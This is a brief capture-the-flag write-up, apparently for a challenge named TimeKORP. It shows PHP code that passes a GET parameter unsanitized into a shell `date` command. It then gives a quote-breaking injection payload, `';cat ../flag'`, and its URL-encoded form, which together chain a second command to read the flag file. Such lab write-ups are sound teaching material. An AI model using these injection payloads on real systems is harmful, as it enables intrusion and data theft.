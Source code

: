 # TimeKORP (<font color=green>Very Easy</font>)


## Description
Are you ready to unravel the mysteries and expose the truth hidden within KROP's digital domain? Join the challenge and prove your prowess in the world of cybersecurity. Remember, time is money, but in this case, the rewards may be far greater than you imagine.

## Tool Used
- Web Browser

## Skill Learned
- Command Injection via unsanitized input passed to a shell command in PHP

## Steps
1. Analyzed the backend PHP code:
    ```php
    $this->command = "date '+" . $format . "' 2>&1";
    ```
    The format parameter from the GET request is injected into a shell command without sanitization.
2. Crafted a payload to break out of the quotes and chain a second command:
    ```
    format=';cat ../flag'
    ```
3. URL-encoded the payload:
    ```
    /?format=%27;cat%20../flag%27
    ```
4. The server executes:
    ```
    date '+'';cat ../flag' 2>&1
    ```
    Which runs date and then cat ../flag.
5. The output of cat ../flag is captured and rendered in the response HTML via <?= $time ?>, exposing the flag.

